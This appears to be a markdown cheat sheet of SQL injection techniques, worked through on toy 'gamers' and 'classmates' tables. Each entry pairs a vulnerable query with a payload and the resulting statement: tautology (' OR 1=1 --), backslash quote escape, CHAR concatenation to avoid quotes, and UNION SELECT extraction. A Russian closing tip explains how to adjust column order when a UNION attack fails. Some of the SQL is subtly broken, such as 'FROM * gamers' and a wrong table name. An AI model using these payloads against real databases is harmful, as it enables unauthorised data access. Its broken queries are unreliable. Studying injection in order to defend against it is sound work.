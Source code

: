 #### EXAMPLE TABLES
##### gamers

| id  | name      | game      |
| --- | --------- | --------- |
| 1   | dimASSik  | dota2beta |
| 2   | DOGLOB@L@ | csgo      |
| 3   | eblan     | deadlock  |
##### classmates

| id  | name    |
| --- | ------- |
| 1   | Alex CH |
| 2   | Vova F  |
| 3   | MK      |

#### default
##### task
get game column
##### query 
SELECT * FROM game WHERE name='$text'
##### injection
' OR 1=1 --
##### total
```sql
SELECT * FROM game WHERE name='' OR 1=1 --'
```

#### 2-field-quotes-escape
##### task
get game column

##### query
SELECT * FROM game WHERE name='$text1' AND id='\$text2'
##### injection
\\ 
OR 1=1 -- 
##### total
```sql
SELECT * FROM game WHERE name='\' AND id='OR 1=1 -- '
```

#### concat-quotes-not-allowed
##### task
get id of MK classmate
##### query
SELECT id FROM classmates WHERE name=$text
##### injection 
CONCAT(CHR(77), CHR(75))
##### explain
CHR() - char from ascii table by its number
##### total
```sql
SELECT id FROM classmates WHERE name=CONCAT(CHR(77), CHR(75))
-- equal to
SELECT id FROM classmates WHERE name='MK'
```
#### union
##### task
get name column of gamers table
##### query
SELECT game FROM gamers WHERE id='$text' LIMIT 1
##### injection
' UNION SELECT name FROM * gamers --
##### total
```sql
SELECT game FROM gamers WHERE id='' UNION SELECT name FROM * gamers --' LIMIT 1
```
  

#### union-with-less-number-of-columns
##### task
get classmates table
##### query
SELECT * FROM gamers WHERE id='$text'
##### injection
' UNION SELECT Null as rand_text, * FROM classmates --
##### total
```sql
SELECT * FROM gamers WHERE id='' UNION SELECT Null as rand_text, * FROM classmates --'
```
Если не воркает, надо пробовать менять порядок нормальных, и пустых колонок.